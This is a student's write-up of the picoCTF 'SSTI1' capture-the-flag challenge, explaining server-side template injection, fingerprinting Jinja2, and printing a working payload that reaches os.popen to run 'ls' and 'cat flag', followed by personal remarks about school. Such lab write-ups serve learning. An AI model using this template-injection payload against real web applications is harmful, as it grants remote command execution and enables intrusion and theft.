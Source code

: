 ## today topic is about the SSTI
### this question is form the pico CTF
[picoCTF:](https://play.picoctf.org/practice)
![SSTI1:](pic/The_qz.png)
<br>
[jinja_doc](https://jinja.palletsprojects.com/en/stable/api/#jinja2.Template.render_async)
<br>

what is the SSTI:
    A server-side template injection attack (SSTI) is when a threat actor exploits a template's native syntax and injects malicious payloads into the template. The compromised template is then executed server-side. -- from google
<br>
what we need to know is the ==template engine==.

Jinja2 for Python, Pug, Handlebars, and EJS for JavaScript/Node.js, JSP for Java and Twig for php.
<br>
by the way,A template engine is a software tool that combines templates with data to generate dynamic output, most commonly in the form of HTML for web pages.
<br>
When I into the web. I saw a bar for input the words and print out. and I just learn a little SSTI.
<br>
first one I try with the Freemaker -- java.

![freemaker](pic/tryWith_freemaker.png)

but It's not work...
<br>
SO I try with other Grammar. And It's works :D

```pyORphp

{{7*7}}

```

![jinjaORtwig](pic/jinjaOrTwig.png)
<br>

but now we have new problem. That is we don't know It's Jinja, twig or other engine. QwQ
<br>
I find around, Until I saw the Network. AwA

![jinja](pic/know_py.png)

<br>
I saw the sever is python, then this web 99% made of Jinja
<br>

I read The Jinja doc and search the command.

![doc](pic/read_doc.png)
<br>

Finally.

```python

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('command').read() }}

```

<br>
the "self" is the start point. "_TemplateReference__context" is the that start with double underscores are mangled to include the class name. "cycler" is the tool for find the obj. Accessing an object’s "__init__" attribute yields the function object that constructs that type."__globals__" is for using the "os" last we use popen for run command. and read()
<br>

```python

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}

```

![findflag](pic/findFlag.png)

print the file

```python

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}

```

![catflag](pic/catFlag.png)

and we found the flag :D
<br>

something want to say:
this one question it was kind a challenge for me, I have to learn the engine, read doc. But finally I did :D
<br>
I feel a litte pressure about the Scioly, Because I the Ell in school. have a good Conversation with team it's hard.
<br>
but
<br>
--船到桥头自然直
<br>
--everything will work out in the end


